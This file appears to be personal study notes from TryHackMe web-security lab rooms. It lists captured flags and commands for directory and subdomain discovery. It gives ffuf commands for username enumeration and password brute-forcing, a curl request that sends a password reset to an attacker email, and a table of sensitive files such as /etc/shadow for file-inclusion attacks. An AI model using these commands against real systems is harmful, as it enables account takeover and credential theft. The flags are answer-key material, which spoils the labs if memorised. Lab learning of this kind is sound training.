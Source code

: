 Walking an Application 
===
THM{CHANGE_DEFAULT_CREDENTIALS}
THM{HEADER_FLAG}

Content Discovery
===
`curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum` gives the md5sum of the favicon which can be looked up (for vulnerabilities) on 
### Tools
- [OWASP's db](https://wiki.owasp.org/index.php/OWASP_favicon_database)
- [Google Hacking/Dorking](https://en.wikipedia.org/wiki/Google_hacking
- [Wappalyzer](https://www.wappalyzer.com/)
- [Wayback Machine](https://archive.org/web/)
- [Amazon s3 buckets](http(s)://{name}.s3.amazonaws.com )
### Commands
`ffuf -w /home/kali/tools/SecLists/Discovery/Web-Content/common.txt -u http://10.10.170.250/FUZZ` was **quicker** than `dirb http://10.10.170.250/ /home/kali/tools/SecLists/Discovery/Web-Content/common.txt` but **less thorough**. `gobuster dir --url http://10.10.170.250/ -w /home/kali/tools/SecLists/Discovery/Web-Content/common.txt` was about the same as ffuf

Subdomain Discovery
===
Tools for publicly available dns:
- `sublist3r.py -d <domain>`
- `dnsrecon -t brt -d <domain>`
- Google search: -site:www.'domain'.com  site:*.'domain'.com --> this will exclude the main domain and only include subdomains

VPN:
	- `ffuf -w /path/to/wrdlist -u http://target -H "HOST: FUZZ.domain.com"`
	
	
AuthN Bypass
===
To find existing usernames:
`ffuf -w /home/kali/tools/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.172.127/customers/signup -mr "username already exists"`
To brute force login of these usernames:
`ffuf -w usernames.txt:W1,/home/kali/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.172.127/customers/login -fc 200`

Password Resets to own email:
`curl "http://10.10.172.127/customers/reset?email=robert%40acmeitsupport.thm" -H "Content-Type: application/x-www-form-urlencoded" -d "username=robert&email=attacker@me.com"`

LFI - Common Files to Try
===
|File|Description|
|---|---|
|etc/issue|contains a message or system identification to be printed before the login prompt.|
|/etc/profile|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version|specifies the version of the Linux kernel|
|/etc/passwd|has all registered user that has access to a system|
|/etc/shadow|contains information about the system's users' passwords|
|/root/.bash_history|contains the history commands for root user|
|/var/log/dmessage|contains global system messages, including the messages that are logged during system startup|
|/var/mail/root|all emails for root user|